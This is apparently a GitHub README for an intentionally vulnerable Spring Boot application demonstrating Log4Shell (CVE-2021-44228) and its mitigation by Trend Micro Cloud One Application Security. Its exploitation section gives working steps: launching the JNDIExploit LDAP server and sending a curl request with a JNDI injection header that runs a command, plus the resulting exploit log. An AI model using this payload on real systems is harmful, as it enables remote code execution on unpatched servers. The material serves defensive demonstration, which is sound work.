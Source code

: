 # Log4Shell sample vulnerable application (CVE-2021-44228), protected by Cloud One Application Security

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/), and was modified to add Trend Micro's Cloud One Application Security agent to demonstrate technique-based web application protection to this vulnerability.

It uses Log4j 2.14.1 (through `spring-boot-starter-log4j2` 2.6.1) and the JDK 1.8.0_181.

![](./screenshot.png)

## Running the application

Build it yourself (you don't need any Java-related tooling):

```bash
docker build . -t log4shell-vulnerable-app-c1as
docker run --rm -d -p 8080:8080 --name log4shell-vulnerable-app-c1as log4shell-vulnerable-app-c1as
```

## Exploitation steps

*Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/). **Run at your own risk, preferably in a VM in a sandbox environment**.*

* Use [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) to spin up a malicious LDAP server

```bash
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip #(looks down, try https://transfer.sh/puxohI/JNDIExploit.v1.2.zip)
unzip JNDIExploit.v1.2.zip
nohup java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888 &
```

* Then, trigger the exploit using:

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

* Notice the output of JNDIExploit, showing it has sent a malicious LDAP response and served the second-stage payload:

```
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo
[+] Paylaod: command
[+] Command: touch /tmp/pwned

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo redirecting to http://192.168.1.143:8888/Exploitjkk87OnvOH.class
[+] New HTTP Request From /192.168.1.143:50119  /Exploitjkk87OnvOH.class
[+] Receive ClassRequest: Exploitjkk87OnvOH.class
[+] Response Code: 200
```

* To confirm that the code execution was successful, notice that the file `/tmp/pwned.txt` was created in the container running the vulnerable application:

```
$ docker exec vulnerable-app ls /tmp
...
pwned
...
```

## Protection with Cloud One Application Security

This assumes you have [already integrated the agent to your application.](https://cloudone.trendmicro.com/docs/application-security/install-agent/)


1. Log into Trend Micro Cloud One and navigate to Application Security.
2. Select "Group's Policy" on the left-hand menu and find your application's Group.
3. Enable "Remote Command Execution" if not already enabled.
4. Click the hamburger icon for "Configure Policy" and then click the " < INSERT RULE > " icon.
5. Input ```(?s).*``` in the "Enter a pattern to match" field and hit "Submit" and "Save Changes."
6. Double-check that "Mitigate" is selected in your "Remote Command Execution" line item.



## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/
https://success.trendmicro.com/solution/000289940
https://www.trendmicro.com/en_us/research/21/l/patch-now-apache-log4j-vulnerability-called-log4shell-being-acti.html


## Contributors

[@christophetd](https://twitter.com/christophetd)
[@rayhan0x01](https://twitter.com/rayhan0x01)

